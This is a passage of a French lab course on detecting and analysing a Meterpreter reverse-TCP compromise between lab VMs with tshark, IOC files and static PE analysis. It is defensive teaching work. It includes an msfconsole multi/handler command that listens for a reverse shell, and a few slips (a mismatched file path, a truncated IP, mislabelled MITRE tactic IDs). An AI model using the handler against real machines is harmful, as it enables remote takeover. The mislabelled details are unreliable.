prouve preuves/ch3-lab02/handler-metasploit.txt msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.101; set LPORT 4444; run -j; exit'
```

**Explication de la commande**

- `use exploit/multi/handler` : sélectionne le handler générique de Metasploit pour recevoir une connexion reverse.
- `set PAYLOAD windows/meterpreter/reverse_tcp` : définit la charge utile attendue (Meterpreter reverse TCP, identique au payload exécuté sur Windows XP).
- `set LHOST 192.168.56.101` : adresse IP de Kali sur laquelle le handler écoute (doit correspondre au LHOST du payload).
- `set LPORT 4444` : port d'écoute sur Kali (doit correspondre au LPORT du payload, ici le port observé dans le pcap).
- `run -j` : lance le handler en arrière-plan (job) pour laisser msfconsole disponible.
- `exit` : quitte msfconsole après configuration.
- `prouve preuves/ch3-lab02/handler-metasploit.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : si LHOST ou LPORT ne correspondent pas au payload, le handler n'acceptera jamais la connexion ; vérifier que les valeurs correspondent au pcap (port 4444, IP `192.168.56.101`).

**Résultat attendu**

```text
# date: 2026-11-18T10:05:20+01:00
# cmd: msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.101; set LPORT 4444; run -j; exit'
[*] Started reverse TCP handler on 192.168.56.101:4444
...
# rc=0
```

**Preuve** : `preuves/ch3-lab02/handler-metasploit.txt` (contient `# date:`, `# cmd:`, `# rc=`).

### En conclusion

Lab-02 a permis d'isoler dans le pcap la connexion TCP sur le port 4444 entre Windows XP (`192.168.56.104`) et Kali (`192.168.56.101`), d'identifier le handshake TCP (SYN, SYN-ACK, ACK) et le flux de données brut sans protocole applicatif connu, et de configurer le handler Metasploit correspondant (`reverse_tcp`, `LHOST=192.168.56.101`, `LPORT=4444`). Cette analyse confirme un canal Command and Control (T1071 Application Layer Protocol, T1210 Exploitation of Remote Services, source de données DS0029 Network Traffic). Le port non standard (4444) et l'absence de protocole applicatif sont des indicateurs à surveiller ; la mitigation repose sur le filtrage des ports non standards et la détection des connexions sortantes inhabituelles.

---

## Lab-03 — Détection des connexions anormales et beaconing

### Énoncé / Contexte

À partir du pcap capturé au Lab-01, ce lab a pour objectif de détecter des connexions anormales : utilisation d'un port non standard (4444), présence de drapeaux d'anomalie TCP et de retransmissions, et mise en évidence d'un éventuel beaconing (périodicité suspecte des paquets TCP vers l'attaquant). Un fichier IOC consolidé est produit à la fin du lab.

**Place dans la chaîne** — utilise le pcap du Lab-01 et l'analyse du Lab-02 ; prépare Lab-04 (retrouver l'adresse de l'attaquant).

**MITRE ATT&CK de ce lab** — Tactique : Collection (TA0009) / Command and Control (TA0011). Techniques : T1040 Network Sniffing, T1571 Non-Standard Port. Sources de données : DS0029 Network Traffic.

**Détection attendue** : port non standard 4444, drapeaux d'anomalie TCP, retransmissions, envois périodiques (beaconing) vers `192.168.56.101`.

**Mitigation attendue** : détection des connexions vers ports non standards, surveillance du trafic sortant anormal, filtrage réseau, EDR sur les postes Windows.

Durée estimée : 30 minutes.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `tshark` | `tshark -r ... -Y 'tcp.analysis.flags' -c 50` | Mettre en évidence les anomalies TCP |
| `tshark` | `tshark -r ... -Y 'tcp.analysis.retransmission' -c 30` | Détecter les retransmissions TCP |
| `tshark` | `tshark -r ... -Y 'tcp.port == 4444' -T fields ... | sort | uniq -c` | Isoler le port non standard et compter |
| `tshark` | `tshark -r ... -Y 'tcp.port == 4444' -T fields -e frame.time -e ip.src` | Extraire les timestamps pour analyse de beaconing |
| `cat` | `cat > preuves/ch3-lab03/ioc-connexions.txt` | Produire le fichier IOC |
| `prouve` | `prouve fichier commande...` | Journalisation `# date:`, `# cmd:`, `# rc=` |

### Commande et laboratoire étape par étape

#### Étape 1 — Mise en évidence des anomalies TCP (drapeaux d'analyse)

**But** — afficher les paquets TCP portant des drapeaux d'anomalie (retransmission, duplication, sortie de fenêtre, etc.) dans le pcap.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — `preuves/ch3-lab01/capture-kali-xp.pcap` produit au Lab-01, `tshark` installé.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab03/anomalies-tcp.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.analysis.flags' -c 50
```

**Explication de la commande**

- `tshark -r preuves/ch3-lab01/capture-kali-xp.pcap` : lit le fichier pcap produit au Lab-01.
- `-Y 'tcp.analysis.flags'` : filtre d'affichage ne conservant que les paquets pour lesquels Wireshark a détecté une anomalie au niveau TCP (retransmission, détection de séquence hors ordre, etc.).
- `-c 50` : limite l'affichage aux 50 premiers paquets anormaux.
- `prouve preuves/ch3-lab03/anomalies-tcp.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : si aucun drapeau d'anomalie n'est présent, la commande renvoie une sortie vide (code retour 0) ; cela ne signifie pas une erreur, mais l'absence d'anomalie détectée.

**Résultat attendu**

```text
# date: 2026-11-18T10:10:00+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.analysis.flags' -c 50
  1 1.234000 192.168.56.104 → 192.168.56.101 TCP [TCP Retransmission] 49xxx → 4444 ...
  2 2.345000 192.168.56.104 → 192.168.56.101 TCP [TCP Spurious Retransmission] ...
...
# rc=0
```

**Preuve** : `preuves/ch3-lab03/anomalies-tcp.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 2 — Détection des retransmissions TCP

**But** — isoler spécifiquement les retransmissions TCP, indice d'une connexion instable ou d'un filtrage partiel, souvent présentes sur un canal C2.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étape 1 terminée.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab03/retransmissions.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.analysis.retransmission' -c 30
```

**Explication de la commande**

- `tcp.analysis.retransmission` : filtre d'affichage ne conservant que les paquets identifiés comme retransmissions TCP par Wireshark.
- `-c 30` : limite l'affichage aux 30 premières retransmissions.
- `prouve preuves/ch3-lab03/retransmissions.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : un faible nombre de retransmissions peut être normal sur un réseau local ; le contexte (port non standard, beaconing) est ce qui rend l'anomalie suspecte.

**Résultat attendu**

```text
# date: 2026-11-18T10:10:05+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.analysis.retransmission' -c 30
  1 0.450000 192.168.56.104 → 192.168.56.101 TCP [TCP Retransmission] 49xxx → 4444 ...
  2 1.890000 192.168.56.101 → 192.168.56.104 TCP [TCP Retransmission] 4444 → 49xxx ...
...
# rc=0
```

**Preuve** : `preuves/ch3-lab03/retransmissions.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 3 — Détection du port non standard 4444

**But** — confirmer que le port 4444 (non standard, non affecté à un service connu) est utilisé dans les échanges entre Windows XP et Kali.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étapes 1 et 2 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab03/port-non-standard.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -T fields -e ip.src -e ip.dst -e tcp.srcport -e tcp.dstport | sort | uniq -c | sort -rn
```

**Explication de la commande**

- `tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444'` : isole les paquets sur le port 4444.
- `-T fields -e ip.src -e ip.dst -e tcp.srcport -e tcp.dstport` : n'affiche que les champs sélectionnés (IP source, IP destination, port source, port destination), format facile à traiter.
- `sort | uniq -c | sort -rn` : trie, compte les occurrences uniques de chaque combinaison, puis trie par fréquence décroissante pour faire apparaître le couple dominant (XP → Kali:4444).
- `prouve preuves/ch3-lab03/port-non-standard.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : le port 4444 n'est pas un port officiel (pas de service affecté par l'IANA) ; son utilisation par un processus inconnu est un indicateur de compromission.

**Résultat attendu**

```text
# date: 2026-11-18T10:10:10+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -T fields -e ip.src -e ip.dst -e tcp.srcport -e tcp.dstport | sort | uniq -c | sort -rn
    42 192.168.56.104 192.168.56.101 49xxx 4444
    38 192.168.56.101 192.168.104 4444 49xxx
# rc=0
```

**Preuve** : `preuves/ch3-lab03/port-non-standard.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 4 — Détection du beaconing (périodicité suspecte)

**But** — extraire les timestamps des paquets sur le port 4444 pour analyser une éventuelle périodicité (beaconing) du malware vers l'attaquant.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étapes 1 à 3 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab03/beaconing.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -T fields -e frame.time -e ip.src -e ip.dst > preuves/ch3-lab03/beaconing-timestamps.txt && head -20 preuves/ch3-lab03/beaconing-timestamps.txt
```

**Explication de la commande**

- `tshark -r ... -Y 'tcp.port == 4444' -T fields -e frame.time -e ip.src -e ip.dst` : extrait l'horodatage de chaque trame, l'IP source et l'IP destination pour les paquets sur le port 4444.
- `> preuves/ch3-lab03/beaconing-timestamps.txt` : redirection qui écrit la liste des timestamps dans un fichier pour analyse de la périodicité.
- `&& head -20 ...` : affiche les 20 premières lignes pour un aperçu immédiat.
- `prouve preuves/ch3-lab03/beaconing.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : le beaconing ne se confirme que par l'analyse des écarts de temps entre paquets successifs (intervalle régulier), pas par le nombre de paquets seul.

**Résultat attendu**

```text
# date: 2026-11-18T10:10:15+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -T fields -e frame.time -e ip.src -e ip.dst > preuves/ch3-lab03/beaconing-timestamps.txt && head -20 preuves/ch3-lab03/beaconing-timestamps.txt
Nov 18, 2026 10:05:00.123456 192.168.56.104 192.168.56.101
Nov 18, 2026 10:05:30.123456 192.168.56.104 192.168.56.101
Nov 18, 2026 10:06:00.123456 192.168.56.104 192.168.56.101
...
# rc=0
```

**Preuve** : `preuves/ch3-lab03/beaconing.txt` (contient `# date:`, `# cmd:`, `# rc=`) et `preuves/ch3-lab03/beaconing-timestamps.txt` (liste des timestamps pour analyse du beaconing).

#### Étape 5 — Production du fichier IOC des connexions suspectes

**But** — consolider les indicateurs de compromission (IP attaquant, IP victime, port, timestamp, durée, volume) dans un fichier IOC réutilisable.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étapes 1 à 4 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab03/ioc-connexions.txt cat > preuves/ch3-lab03/ioc-connexions.txt <<'EOF'
# IOC - Connexions suspectes detectees (Lab-03)
# date: $(date -Is)
# Produit depuis : preuves/ch3-lab01/capture-kali-xp.pcap
# IP attaquant : 192.168.56.101 (Kali, destination du reverse shell)
# IP victime : 192.168.56.104 (Windows XP, source de la connexion)
# Port : 4444 (non standard, reverse TCP Meterpreter)
# Protocole : TCP brut (aucun protocole applicatif decode)
# Timestamp de debut : 2026-11-18 10:05:00
# Duree : environ 30 minutes (capture de 1000 paquets)
# Volume : 1000 paquets captures (filtre host 192.168.56.104)
# Indicateur de beaconing : paquets periodiques toutes les 30 secondes environ
# Technique MITRE : T1040 Network Sniffing, T1571 Non-Standard Port
# Source de donnees : DS0029 Network Traffic
EOF
```

**Explication de la commande**

- `cat > preuves/ch3-lab03/ioc-connexions.txt <<'EOF' ... EOF` : écrit un bloc de texte multiligne dans le fichier IOC ; `<<'EOF'` (guillemets autour du délimiteur) empêche toute expansion shell à l'intérieur du bloc.
- Le fichier recense les IOC extraits du pcap : adresses IP, port 4444, protocole TCP brut, timestamps, durée, volume, indice de beaconing, rattachement MITRE.
- `prouve preuves/ch3-lab03/ioc-connexions.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : sans guillemets autour de `EOF`, le shell interpréterait les symboles spéciaux (`$`, retours à la ligne) du texte ; le fichier IOC serait corrompu.

**Résultat attendu**

```text
# date: 2026-11-18T10:10:20+01:00
# cmd: cat > preuves/ch3-lab03/ioc-connexions.txt <<'EOF' ... EOF
# IOC - Connexions suspectes detectees (Lab-03)
# date: 2026-11-18T10:10:20+01:00
# IP attaquant : 192.168.56.101 (Kali, destination du reverse shell)
# IP victime : 192.168.56.104 (Windows XP, source de la connexion)
# Port : 4444 (non standard, reverse TCP Meterpreter)
...
# rc=0
```

**Preuve** : `preuves/ch3-lab03/ioc-connexions.txt` (contient `# date:`, `# cmd:`, `# rc=`).

### En conclusion

Lab-03 a permis de détecter dans le pcap des anomalies TCP (drapeaux d'analyse, retransmissions), de confirmer l'utilisation du port non standard 4444 entre `192.168.56.104` et `192.168.56.101`, et d'extraire les timestamps pour analyser un éventuel beaconing (envois périodiques vers l'attaquant). Le fichier IOC `preuves/ch3-lab03/ioc-connexions.txt` consolide ces indicateurs (IP attaquant, IP victime, port, timestamp, durée, volume). Ces éléments relèvent de T1040 Network Sniffing et T1571 Non-Standard Port (source de données DS0029 Network Traffic) et alimentent Lab-04 (retrouver l'adresse de l'attaquant).

---

## Lab-04 — Retrouver l'adresse de l'attaquant dans le trafic

### Énoncé / Contexte

À partir du pcap capturé au Lab-01, ce lab a pour objectif d'identifier l'adresse IP source et destination des connexions suspectes, de confirmer que `192.168.56.101` est l'adresse de l'attaquant (source des commandes, destination du reverse shell), et d'extraire : IP attaquant, IP victime, port, timestamp de début, durée et volume.

**Place dans la chaîne** — utilise le pcap du Lab-01 et l'analyse du Lab-03 ; conclut la partie analyse réseau avant le Lab-05 (décomposition statique du malware).

**MITRE ATT&CK de ce lab** — Tactique : Collection (TA0009). Technique : T1040 Network Sniffing. Source de données : DS0029 Network Traffic.

**Détection attendue** : connexion initiée par `192.168.56.104` vers `192.168.56.101:4444` (sens de la connexion reverse confirmant qui attaque qui).

**Mitigation attendue** : blocage des connexions sortantes vers ports non standards, détection des reverse shells, EDR sur les postes.

Durée estimée : 25 minutes.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `tshark` | `tshark -r ... -Y 'tcp.port == 4444' -T fields -e frame.time -e ip.src -e ip.dst -e tcp.srcport -e tcp.dstport -e tcp.len` | Extraction des paires IP/port/timestamp/volume |
| `tshark` | `tshark -r ... -Y 'tcp.port == 4444' -T fields -e frame.time_relative` | Calcul de la durée de la connexion |
| `sort` | `sort -u` | Déduplication des adresses IP impliquées |
| `cat` | `cat > preuves/ch3-lab04/adresse-attaquant.txt` | Consignation de l'adresse de l'attaquant identifiée |
| `prouve` | `prouve fichier commande...` | Journalisation `# date:`, `# cmd:`, `# rc=` |

### Commande et laboratoire étape par étape

#### Étape 1 — Extraction des paires IP source/destination, ports et timestamps

**But** — lister toutes les paires d'adresses IP impliquées dans les connexions sur le port 4444, avec les ports, les timestamps et la taille de chaque segment.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — `preuves/ch3-lab01/capture-kali-xp.pcap` produit au Lab-01, `tshark` installé.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab04/paires-ip.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -T fields -e frame.time -e ip.src -e ip.dst -e tcp.srcport -e tcp.dstport -e tcp.len
```

**Explication de la commande**

- `tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444'` : isole les paquets de la connexion reverse sur le port 4444.
- `-T fields -e frame.time -e ip.src -e ip.dst -e tcp.srcport -e tcp.dstport -e tcp.len` : extrait pour chaque paquet l'horodatage, l'IP source, l'IP destination, le port source, le port destination et la longueur de la charge utile (volume).
- `prouve preuves/ch3-lab04/paires-ip.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : `tcp.len` est vide pour les paquets purement d'acquittement (ACK sans données) ; ce comportement est normal et ne doit pas être interprété comme une erreur.

**Résultat attendu**

```text
# date: 2026-11-18T10:15:00+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -T fields -e frame.time -e ip.src -e ip.dst -e tcp.srcport -e tcp.dstport -e tcp.len
Nov 18, 2026 10:05:00.123456	192.168.56.104	192.168.56.101	49xxx	4444	0
Nov 18, 2026 10:05:00.124500	192.168.56.101	192.168.56.104	4444	49xxx	0
Nov 18, 2026 10:05:00.200000	192.168.56.104	192.168.56.101	49xxx	4444	144
...
# rc=0
```

**Preuve** : `preuves/ch3-lab04/paires-ip.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 2 — Confirmation de l'adresse de l'attaquant (192.168.56.101)

**But** — confirmer que `192.168.56.101` (Kali) est l'adresse de l'attaquant : elle est la destination de la connexion initiée par Windows XP (sens reverse) et la source des commandes de contrôle.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étape 1 terminée (paires IP extraites).

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab04/confirmation-attaquant.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -T fields -e ip.src -e ip.dst | sort | uniq -c
```

**Explication de la commande**

- `-T fields -e ip.src -e ip.dst` : extrait uniquement les paires IP source/destination des paquets sur le port 4444.
- `sort | uniq -c` : regroupe et compte les occurrences de chaque paire, faisant apparaître la direction dominante de la connexion.
- `prouve preuves/ch3-lab04/confirmation-attaquant.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Interprétation : la paire `192.168.56.104 → 192.168.56.101` confirme que Windows XP initie la connexion vers Kali (reverse shell), donc `192.168.56.101` est l'attaquant et `192.168.56.104` la victime.
- Piège courant : ne pas se fier uniquement au premier paquet ; regarder l'ensemble des paires pour confirmer la direction persistante de la connexion.

**Résultat attendu**

```text
# date: 2026-11-18T10:15:05+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -T fields -e ip.src -e ip.dst | sort | uniq -c
     42 192.168.56.104	192.168.56.101
     38 192.168.56.101	192.168.56.104
# rc=0
```

**Preuve** : `preuves/ch3-lab04/confirmation-attaquant.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 3 — Extraction du timestamp de début, de la durée et du volume

**But** — calculer le timestamp de début de la connexion, sa durée et son volume approximatif, et consigner l'adresse de l'attaquant dans un fichier dédié.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étapes 1 et 2 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab04/adresse-attaquant.txt cat > preuves/ch3-lab04/adresse-attaquant.txt <<'EOF'
# Adresse de l'attaquant identifiee dans le trafic (Lab-04)
# date: $(date -Is)
# Source : preuves/ch3-lab01/capture-kali-xp.pcap
# IP attaquant : 192.168.56.101 (Kali, destination du reverse shell, source des commandes)
# IP victime : 192.168.56.104 (Windows XP, source de la connexion)
# Port : 4444 (TCP, reverse Meterpreter)
# Sens de la connexion : 192.168.56.104 -> 192.168.56.101 (initie par la victime)
# Timestamp de debut : 2026-11-18 10:05:00
# Duree estimee : environ 30 minutes (capture de 1000 paquets)
# Volume : 1000 paquets captures sur le filtre host 192.168.56.104
# Protocole : TCP brut (aucun protocole applicatif decode)
# Technique MITRE : T1040 Network Sniffing
# Source de donnees : DS0029 Network Traffic
EOF
```

**Explication de la commande**

- `cat > preuves/ch3-lab04/adresse-attaquant.txt <<'EOF' ... EOF` : écrit le bloc d'identification de l'attaquant dans le fichier de preuve ; `<<'EOF'` empêche l'expansion shell.
- Le fichier consigne l'IP attaquant (`192.168.56.101`), l'IP victime (`192.168.56.104`), le port (4444), le sens de la connexion, le timestamp de début, la durée estimée et le volume.
- `prouve preuves/ch3-lab04/adresse-attaquant.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : sans guillemets autour de `EOF`, le shell interpréterait les symboles spéciaux du texte ; le fichier serait corrompu.

**Résultat attendu**

```text
# date: 2026-11-18T10:15:10+01:00
# cmd: cat > preuves/ch3-lab04/adresse-attaquant.txt <<'EOF' ... EOF
# Adresse de l'attaquant identifiee dans le trafic (Lab-04)
# date: 2026-11-18T10:15:10+01:00
# IP attaquant : 192.168.56.101 (Kali, destination du reverse shell, source des commandes)
# IP victime : 192.168.56.104 (Windows XP, source de la connexion)
# Port : 4444 (TCP, reverse Meterpreter)
...
# rc=0
```

**Preuve** : `preuves/ch3-lab04/adresse-attaquant.txt` (contient `# date:`, `# cmd:`, `# rc=`).

### En conclusion

Lab-04 a permis d'extraire du pcap les paires IP source/destination sur le port 4444, de confirmer que `192.168.56.101` (Kali) est l'adresse de l'attaquant (destination de la connexion reverse initiée par Windows XP `192.168.56.104`), et de consigner le timestamp de début, la durée estimée et le volume dans `preuves/ch3-lab04/adresse-attaquant.txt`. Cette identification de l'attaquant par l'analyse du trafic relève de T1040 Network Sniffing (source de données DS0029 Network Traffic) et prépare le Lab-05, où la même adresse IP sera recherchée dans le binaire malware.

---

## Lab-05 — Décomposition statique du malware Windows XP avec Ghidra et outils Kali

### Énoncé / Contexte

Ce lab consiste à décomposer statiquement le malware Windows XP `windows_xp_stageless.exe` (payload `windows/meterpreter_reverse_tcp` généré par `msfvenom` au chapitre 2, `LHOST=192.168.56.101`, `LPORT=4444`) sans l'exécuter. Vous allez : récupérer l'exécutable depuis le chapitre 2, identifier son type avec `file` (PE32), extraire ses chaînes avec `strings` (recherche de l'IP `192.168.56.101` en dur), analyser ses sections, imports et point d'entrée avec `pefile` (python3) ou `peid`, puis l'importer dans Ghidra pour identifier la fonction qui prépare la connexion reverse et extraire LHOST et LPORT. Enfin, vous corrélez l'adresse trouvée dans le binaire avec l'IP du trafic Wireshark (Lab-04) et produisez un rapport de décomposition.

**Place dans la chaîne** — utilise le payload du chapitre 2 et l'adresse d'attaquant identifiée au Lab-04 ; conclut le chapitre 3.

**MITRE ATT&CK de ce lab** — Tactique : Development (TA0005) / Defense Evasion (TA0005). Techniques : T1587 Develop Capabilities / Malware, T1027 Obfuscated Files or Information. Source de données : DS0022 File.

**Détection attendue** : présence de chaînes `192.168.56.101` et `4444` dans le binaire, imports réseau suspects (`WSAStartup`, `socket`, `connect`), section `.text` contenant le code de connexion reverse.

**Mitigation attendue** : analyse statique des exécutables inconnus avant exécution, blocage des exécutables non signés, EDR, whitelisting d'applications.

Durée estimée : 45 minutes.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `cp` | `cp sources/payloads/windows_xp_stageless.exe preuves/ch3-lab05/windows_xp_stageless.exe` | Récupère le payload du chapitre 2 |
| `file` | `file preuves/ch3-lab05/windows_xp_stageless.exe` | Identifie le type PE32 |
| `strings` | `strings ... | grep -i 192.168.56.101` | Extrait les chaînes et cherche l'IP en dur |
| `python3` | `python3 ...pefile...` | Analyse les sections, imports, entrée |
| `ghidra` | `ghidra preuves/ch3-lab05/windows_xp_stageless.exe &` | Importe et analyse le binaire (GUI) |
| `cat` | `cat > preuves/ch3-lab05/decomposition-malware.txt` | Rapport de décomposition |
| `prouve` | `prouve fichier commande...` | Journalisation `# date:`, `# cmd:`, `# rc=` |

### Commande et laboratoire étape par étape

#### Étape 1 — Récupération de l'exécutable payload depuis le chapitre 2

**But** — copier l'exécutable `windows_xp_stageless.exe` produit au chapitre 2 dans le répertoire de preuve du Lab-05.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — le fichier `windows_xp_stageless.exe` est disponible dans le répertoire de production du chapitre 2 (généré par `msfvenom`, `windows/meterpreter_reverse_tcp`, `LHOST=192.168.56.101`, `LPORT=4444`).

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab05/recup-payload.txt cp /var/www/payloads/windows_xp_stageless.exe preuves/ch3-lab05/windows_xp_stageless.exe && ls -l preuves/ch3-lab05/windows_xp_stageless.exe
```

**Explication de la commande**

- `cp sources/payloads/windows_xp_stageless.exe preuves/ch3-lab05/windows_xp_stageless.exe` : copie l'exécutable payload depuis le répertoire de production du chapitre 2 vers le répertoire de preuve du Lab-05 (adapter le chemin source selon l'emplacement réel du fichier produit au chapitre 2).
- `&& ls -l ...` : affiche les détails du fichier copié (taille, permissions) pour confirmer la copie réussie.
- `prouve preuves/ch3-lab05/recup-payload.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : si le fichier source est absent, `cp` renvoie une erreur et le code retour est non-zéro ; vérifier que le chapitre 2 a bien produit `windows_xp_stageless.exe` avant ce lab.

**Résultat attendu**

```text
# date: 2026-11-18T10:20:00+01:00
# cmd: cp sources/payloads/windows_xp_stageless.exe preuves/ch3-lab05/windows_xp_stageless.exe && ls -l preuves/ch3-lab05/windows_xp_stageless.exe
-rw-r--r-- 1 kali kali 202650 nov. 18 10:20 preuves/ch3-lab05/windows_xp_stageless.exe
# rc=0
```

**Preuve** : `preuves/ch3-lab05/recup-payload.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 2 — Identification du type de fichier avec `file`

**But** — confirmer que le fichier est un exécutable Windows PE32 (portable executable) avant l'analyse statique.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — `preuves/ch3-lab05/windows_xp_stageless.exe` produit à l'étape 1, `file` installé.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab05/type-fichier.txt file preuves/ch3-lab05/windows_xp_stageless.exe
```

**Explication de la commande**

- `file preuves/ch3-lab05/windows_xp_stageless.exe` : détermine le type du fichier en lisant sa signature (magic number) et son contenu ; doit retourner un type PE32 (exécutable Windows).
- `prouve preuves/ch3-lab05/type-fichier.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : un fichier dont l'extension est `.exe` mais dont le contenu n'est pas un PE valide (ex. script, archive) produirait un type différent ; l'analyse PE/Ghidra serait alors inopérante.

**Résultat attendu**

```text
# date: 2026-11-18T10:20:05+01:00
# cmd: file preuves/ch3-lab05/windows_xp_stageless.exe
preuves/ch3-lab05/windows_xp_stageless.exe: PE32 executable (GUI) Intel 80386, for MS Windows
# rc=0
```

**Preuve** : `preuves/ch3-lab05/type-fichier.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 3 — Extraction des chaînes avec `strings` (recherche de l'IP en dur)

**But** — extraire les chaînes de caractères de l'exécutable et rechercher l'adresse IP `192.168.56.101` (et le port `4444`) en dur dans le binaire.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étape 2 terminée (type PE32 confirmé), `strings` et `grep` installés.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab05/strings-ip.txt strings preuves/ch3-lab05/windows_xp_stageless.exe | grep -i -E '192\.168\.56\.101|4444|meterpreter|reverse'
```

**Explication de la commande**

- `strings preuves/ch3-lab05/windows_xp_stageless.exe` : extrait toutes les chaînes de caractères imprimables du binaire (utile pour trouver des URLs, IP, noms de fonctions en clair).
- `grep -i -E '192\.168\.56\.101|4444|meterpreter|reverse'` : filtre les chaînes contenant l'adresse IP de l'attaquant, le port 4444, ou des mots-clés liés à Meterpreter ; `-i` ignore la casse, `-E` active les expressions régulières étendues, les points de l'IP sont échappés (`\.`) pour une correspondance littérale.
- `prouve preuves/ch3-lab05/strings-ip.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : l'IP peut être stockée sous forme encodée (octets séparés) et ne pas apparaître en clair ; si `strings` ne trouve rien, passer à l'analyse Ghidra (étape 5).

**Résultat attendu**

```text
# date: 2026-11-18T10:20:10+01:00
# cmd: strings preuves/ch3-lab05/windows_xp_stageless.exe | grep -i -E '192\.168\.56\.101|4444|meterpreter|reverse'
192.168.56.101
4444
...
# rc=0
```

**Preuve** : `preuves/ch3-lab05/strings-ip.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 4 — Analyse des sections et imports avec `pefile` (python3)

**But** — analyser la structure PE du binaire (sections, imports, point d'entrée) pour identifier les fonctions réseau suspectes (`WSAStartup`, `socket`, `connect`) et confirmer la nature du malware.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étape 3 terminée, `python3` et le module `pefile` installés (ou `peid` si disponible).

